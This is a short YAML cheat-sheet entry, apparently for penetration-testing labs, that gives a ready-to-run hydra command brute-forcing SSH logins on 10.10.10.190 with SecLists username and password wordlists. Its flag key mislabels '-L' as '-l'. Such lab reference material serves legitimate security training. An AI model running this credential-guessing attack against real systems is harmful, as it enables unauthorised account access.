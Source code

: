 ```yaml
---
functions:
  gain-access:
    - description: hydra
      code: |
        hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt ssh://10.10.10.190:22 -t 6
        
        -l --> login_name
        -P --> password_list
        -t --> threads
---
```

